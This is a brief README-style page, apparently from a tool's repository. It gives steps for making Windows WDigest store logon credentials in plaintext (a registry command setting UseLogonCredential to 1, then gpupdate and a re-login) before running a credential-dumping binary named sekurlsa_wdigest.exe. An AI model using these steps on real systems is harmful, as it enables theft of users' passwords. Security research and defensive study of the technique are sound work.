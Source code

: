 # Forcing WDigest to Store Credentials in Plaintext
Run the following in your elevated prompt before executing the compiled binary:

- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
- gpupdate /force
- restart your machine and login with your credentials
- Execute sekurlsa_wdigest.exe on elevated prompt.

